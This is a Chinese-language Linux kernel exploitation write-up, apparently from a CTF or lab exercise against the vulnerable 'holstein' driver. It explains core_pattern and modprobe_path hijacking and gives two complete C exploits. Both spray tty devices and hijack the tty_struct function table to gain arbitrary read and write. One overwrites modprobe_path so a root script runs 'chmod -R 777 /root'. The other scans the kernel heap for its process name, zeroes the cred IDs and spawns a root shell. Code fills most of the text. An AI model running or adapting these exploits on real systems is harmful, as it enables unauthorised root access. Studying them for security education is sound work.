core_pattern是内核中的一个参数，定义了 **程序崩溃时生成 core dump 的路径或处理方式**。，它的触发方式是：**让某个程序崩溃**（比如故意除以零、访问非法地址等）。程序在崩溃后内核会以root权限去运行这个core_pattern参数中的命令，如果这个名字被提前添加了以 | 开头的命令（管道模式），就可以以root权限执行这个管道符号后的命令。

这里我们尝试利用modprobe_path来完成提权，首先要找到这个字符串在内核之中的偏移，最开始我尝试以：

```sh
cat kallsyms | grep modprobe_path
```

这个方法来找，但是发现本次实验环境中是没有暴露modprobe_path，所以这里我们需要用到pwntools来完成对vmlinux文件的搜索：

```python
from pwn import *
elf = ELF('./vmlinux')
print(hex(next(elf.search(b'/sbin/modprobe\x00'))))
```

直接通过objdump 等方法搜的话是无法直接找到这个字符串的，所以利用pwntools在vmlinux文件中以字节流的形式来搜。而/sbin/modprobe这个字符串的

最后可以找到这个字符串的所在位置是：0xffffffff81e38180

那么只要利用AAW往这个地址中写入一个提权程序的路径即可，最终一个测试用的exp为：


```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;
int spray[SPRAY_NUM];
char buf[0x500];
char mal_path[] = "/tmp/getshell.sh\x00";

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t mov_eax_rdx_ret = 0xffffffff811b7db9;
uint64_t modprobe = 0xffffffff81e38180;

void AAW32(uint64_t rdx, unsigned int rcx) {
  uint64_t *p = (uint64_t *)&buf;
  *(p + 0xc) = mov_eax_rdx_ret - base + kernel_base; // 设置触发任意写的gadget

  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], rcx, rdx); // arg1:tty设备 arg2:rcx arg3：rdx
  }
}

int main() {
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  for (int i = 0; i < sizeof(mal_path); i += 4 * sizeof(char)) {
    AAW32(modprobe - base + kernel_base + i, *(uint64_t *)&mal_path[i]);
  }

  puts("[*] triggering modprobe");

  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/getshell.sh");
  system("cat /tmp/getshell.sh");
  system("chmod +x /tmp/getshell.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn"); // trigger modprobe_path

  close(global_fd);

  //   for (int i = 0; i < SPRAY_NUM; i++) {
  //     close(spray[i]);
  //   }

  return 0;
}
```

这个exp并没有直接提权，而是更改了root文件夹的属性，我尝试在这个exp中直接写入脚本来完成提权，但是modprobe_path虽然被劫持且执行成功了，但是实际情况与直接执行脚本仍有不同，不能很好的直接提权。

### cred结构体重写

在拥有AAW和AAR的能力的前提下，可以将某个进程的cred中的各个ID写为0（最高权限）

由于驱动和内核共享内核堆，那么就可以考虑利用AAR来搜寻目标cred，然后结合使用AAW来修改cred。

首先是关于这个cred结构体，它的定义非常的长，这里截取里面关键的一部分放出：

```c
	const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
	/* Cached requested key. */
	struct key			*cached_requested_key;
#endif

	/*
	 * executable name, excluding path.
	 *
	 * - normally initialized begin_new_exec()
	 * - set it with set_task_comm()
	 *   - strscpy_pad() to ensure it is always NUL-terminated and
	 *     zero-padded
	 *   - task_lock() to ensure the operation is atomic and the name is
	 *     fully updated.
	 */
	char				comm[TASK_COMM_LEN];
```

这里可以看到一个cred结构体指针，还有一个char型数组comm。这个comm里面就是本进程的name。

那么利用AAR搜寻目标进程的name，再利用AAW更改对应进程的cred结构体即可完成提权

一个测试用的exp如下：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;
int spray[SPRAY_NUM];
char buf[0x500];
int cache_fd = -1;

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t mov_rdx_rcx_ret = 0xffffffff811b7db9;
uint64_t mov_eax_rdx_ret = 0xffffffff8118a285;

void AAW32(uint64_t rdx, unsigned int rcx) {
  uint64_t *p = (uint64_t *)&buf;
  *(p + 0xc) = mov_rdx_rcx_ret - base + kernel_base; // 设置触发任意写的gadget

  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], rcx, rdx); // arg1:tty设备 arg2:rcx arg3：rdx
  }
}

unsigned int AAR32(uint64_t rdx) {
  if (cache_fd == -1) { // 设置这个cache_fd是为了避免多次遍历spra数组
    uint64_t *p = (uint64_t *)&buf;
    *(p + 0xc) = mov_eax_rdx_ret - base + kernel_base; // 设置触发任意写的gadget

    *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
    write(global_fd, buf, 0x420);

    for (int i = 0; i < SPRAY_NUM; i++) {
      int v = ioctl(spray[i], 0, rdx);
      if (v != -1) {
        cache_fd = spray[i];
        return v;
      }
    }
  } else {
    return ioctl(cache_fd, 0, rdx);
  }
}

int main() {
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  puts("[*] setting .comm to shuai6666\n");

  prctl(PR_SET_NAME, "yang6666");

  uint64_t addr_cred = 0;
  uint64_t addr = 0;

  for (addr = g_buf - 0x1000000;; addr += 0x8) { // 根据进程name循环搜寻目标进程
    if ((addr & 0xfffff) == 0) {
      printf("[*] start searching 0x%lx\n",
             addr); // 每到0x100000整数倍时就打印一次进度
    }
    if ((AAR32(addr) == 0x676e6179) && (AAR32(addr + 0x4) == 0x36363636)) {
      printf("[+] found target process: 0x%lx\n", addr);
      // 把8字节的地址分为两次4字节来读取
      addr_cred |= AAR32(addr - 0x8);                 // 读取低32位
      addr_cred |= (uint64_t)AAR32(addr - 0x4) << 32; // 读取高32位
      printf("[+] found target cred cred: 0x%lx\n", addr_cred);

      break;
    }
  }

  puts("[*] changing cred to 0\n");

  for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i * 4, 0);
  }

  puts("[*] spwan shell");

  system("/bin/sh");

  close(global_fd);

  //   for (int i = 0; i < SPRAY_NUM; i++) {
  //     close(spray[i]);
  //   }

  return 0;
}
```

其中在使用AAW进行cred改写的时候，需要从addr_cred +4的位置开始，这是因为在v5.15的源码中，cred结构体：

```c
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
    .
    .
    .
```

在各个ID字段之前有一个：atomic_t	usage，他是一个四字节大小的数据，在GDB中可以看到：



这里0xffff8d9b01fd4300:     0x0000000000000067
这个67大概就是这个usage